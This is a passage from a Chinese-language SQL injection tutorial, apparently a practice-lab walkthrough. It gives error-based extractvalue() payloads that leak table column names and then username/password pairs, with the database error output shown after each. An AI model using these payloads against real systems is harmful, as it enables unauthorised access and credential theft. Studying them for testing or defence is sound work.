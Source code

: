 可以看出，爆出的字段名称长度超出了32，所以需要使用substring（）函数每隔32位截取一次，最终拼凑出全部内容。
?id=1' or extractvalue(1,concat(0x7e,substring((select group\_concat(column\_name) from information\_schema.columns where table\_name='users' ),1,31),0x7e))--+

> XPATH syntax error: '~user\_id,first\_name,last\_name,us'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(column_name) from information_schema.columns where table_name='users' ),32,31),0x7e))--+`

> XPATH syntax error: '~er,password,avatar,last\_login,f'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(column_name) from information_schema.columns where table_name='users' ),64,31),0x7e))--+`

> XPATH syntax error: '~iled\_login,USER,CURRENT\_CONNECT'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(column_name) from information_schema.columns where table_name='users' ),95,31),0x7e))--+`

> XPATH syntax error: '~IONS,TOTAL\_CONNECTIONS,id,usern'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(column_name) from information_schema.columns where table_name='users' ),126,31),0x7e))--+`

> XPATH syntax error: '~ame,password~'

**拼接：**
user\_id,
first\_name,
last\_name,
user,
password,
avatar,
last\_login,
filed\_login,
USER,
CURRENT\_CONNECT~IONS,
TOTAL\_CONNECTIONS,
id,
username,
password <a name="g9URs"></a>

### 或者只查看当前数据库表字段名称：

`?id=1' or extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e))--+`

> XPATH syntax error: '~id,username,password~'

## 查看字段内容

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),1,31),0x7e))--+`

> XPATH syntax error: '~Dumb^Dumb,Angelina^I-kill-you,D'

`?id=1' or extractvalue(1,concat(0x7e,substring((select group_concat(concat(username,'^',password)) from users),32,31),0x7e))--+`
